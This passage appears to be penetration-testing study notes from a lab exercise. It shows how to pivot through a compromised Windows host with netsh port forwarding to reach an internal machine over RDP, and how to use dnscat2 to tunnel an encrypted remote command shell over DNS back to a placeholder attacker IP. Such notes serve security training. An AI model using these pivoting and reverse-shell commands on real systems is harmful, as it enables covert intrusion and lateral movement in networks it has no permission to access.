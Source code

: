 Which can then be verified with:

```shell-session
netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.15.150   8080        172.16.5.25     3389
```

The `10.129.15.150` is the "public" IP of the Windows host we've already compromised.

The `172.16.5.25` is the private IP of the internal machine we're targeting.

Traffic will now go from our attacking machine through  `10.129.15.150:8080` to  `172.16.5.25:3389` .

```
xfreerdp /v:10.129.15.150:8080 /u:user /p:pass
```

{% hint style="success" %}
**Now, if we have our hands on a compromised windows host, we can use it as a pivot to access internal assets.**
{% endhint %}

## DNScat2: Encrypting our traffic

`Dnscat2` is tool that encapsulates the streams of data within `TXT` records in the DNS protocol. The communication is encrypted and creates a secure channel.

1. We setup a `dnscat2` server on our attacking machine:

```shell-session
sudo ruby dnscat2.rb --dns host=<ATTACKING HOST>,port=53,domain=inlanefreight.local --no-cache
<REDACTED>
  ./dnscat --secret=<SECRET> inlanefreight.local
  ./dnscat --dns server=x.x.x.x,port=53 --secret=<SECRET>
<REDACTED>
```

2. After transferring the client `.ps1` script file to the target windows machine, we run the client to connect back to us:

```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver <ATTACK IP> -Domain inlanefreight.local -PreSharedSecret <SECRET> -Exec cmd 
```

3. We can then execute commands from our attacking host:

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>?
     <Display available commands.>
dnscat2> window -i 1
    <Opens up a CMD shell>
```
